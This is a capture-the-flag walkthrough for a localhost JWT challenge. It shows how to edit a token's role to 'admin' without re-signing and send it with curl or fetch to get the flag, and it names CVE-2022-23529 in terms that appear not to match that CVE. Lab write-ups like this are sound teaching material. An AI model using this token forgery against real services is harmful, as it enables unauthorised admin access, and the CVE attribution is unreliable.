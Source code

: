 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
   
     •	Use the same credentials to log in.
   
     •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
     a. Open the console:
   
       •	On MacOS, press (Option + Command + J).
   
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
   
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
   
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
   
       {
         "username": "isabella",
         "role": "admin",
         "iat": 1738901843,
         "exp": 1738905443
       }
   
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
   
     c. Your JWT is now modified.

6. Send the Manipulated JWT to the Server (2 ways)
   
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
   
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
   
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

7. Access the Admin Endpoint and Retrieve the Flag
    
     a. The server will decode the manipulated token and grant admin access.
    
     b. The server will respond with the flag:
   
         {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (**jsonwebtoken <=8.5.1**): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.
